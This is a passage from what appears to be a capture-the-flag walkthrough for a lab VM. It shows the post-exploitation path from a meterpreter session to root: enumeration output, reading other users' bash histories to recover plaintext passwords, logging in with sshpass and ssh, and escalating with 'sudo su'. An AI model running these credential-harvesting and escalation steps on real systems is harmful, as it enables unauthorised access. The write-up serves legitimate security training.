 Now you should have a meterpreter.
![](https://i.imgur.com/PVopOep.png)

## linenum.sh
```
    Hostname: red.initech
       Linux: 4.4.0-21-generic
Distribution: Ubuntu 16.04 LTS
==================================================================( users )=====
[*] usr020 Are there other users in administrative groups?................. yes!
============================================================( file system )=====
[*] fst000 Writable files outside user's home.............................. yes!
[*] fst010 Binaries with setuid bit........................................ yes!
[*] fst080 Can we read subdirectories under /home?......................... yes!
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!

```

I think the kernel can be exploited but I have to finish the reco first.
```zsh
find /home
```
peter is diferent, I think he can use sudo.
/home/peter/.sudo_as_admin_successful

Let's see deeper.
```zsh
cat /home/*/.bash_hi*
```
![](https://i.imgur.com/tKGXB5R.png)
We have JKanode and peter, peter can use sudo so let's go for peter.
```   
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
```
## SSH peter
```zsh
ssh peter@192.168.0.34
JZQuyIN5
```
## Enum sudo
```zsh
sudo -l
```
```
User peter may run the following commands on red:
    (ALL : ALL) ALL
```
```zsh
sudo su
```
We are root.
![](https://i.imgur.com/RHYUmp7.png)
Let's get this flag.
![](https://i.imgur.com/2ggYBPH.png)
